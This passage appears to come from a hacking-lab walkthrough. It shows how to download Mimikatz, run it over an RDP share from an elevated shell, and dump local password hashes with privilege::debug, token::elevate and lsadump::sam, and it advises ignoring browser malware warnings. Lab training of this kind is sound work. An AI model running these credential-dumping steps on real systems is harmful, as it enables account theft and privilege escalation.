 Go to the releases page for Mimikatz and find the latest release at the top of the list. Download the file called mimikatz_trunk.zip to your attacking machine.

Note: Certain browsers block the repository as being malicious. You're a hacker -- of course it's malicious. Just continue to the page anyway: it's perfectly safe.
Make sure that the zip file is in your /tmp directory, then unzip it with unzip mimikatz_trunk.zip :

pentester@attacker:/tmp$ unzip mimikatz_trunk.zip 
Archive:  mimikatz_trunk.zip
  inflating: kiwi_passwords.yar      
  inflating: mimicom.idl             
  inflating: README.md               
   creating: Win32/
  inflating: Win32/mimidrv.sys       
  inflating: Win32/mimikatz.exe      
  inflating: Win32/mimilib.dll       
  inflating: Win32/mimilove.exe      
  inflating: Win32/mimispool.dll


Now we can get to work!

Switch back into your RDP session and (using the elevated Command Shell we obtained in the last task) execute the following command to start Mimikatz:
\\tsclient\share\x64\mimikatz.exe

If this is successful then you should get some pretty ASCII art and a new terminal prompt:

PS C:\Windows\system32> \\tsclient\share\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #

When we start Mimikatz we usually have to execute two commands before we start dumping hashes:

 privilege::debug -- this obtains debug privileges which (without going into too much depth in the Windows privilege structure) allows us to access other processes for "debugging" purposes.
token::elevate -- simply put, this takes us from our administrative shell with high privileges into a SYSTEM level shell with maximum privileges. This is something that we have a right to do as an administrator, but that is not usually possible using normal Windows operations.
With these commands executed, we are ready to dump some passwords hashes!

There are a variety of commands we could use here, all of which do slightly different things. The command that we will use is: lsadump::sam.

When executed, this will provide us with a list of password hashes for every account on the machine (with some extra information thrown in as well). The Administrator account password hash should be fairly near the top of the list:
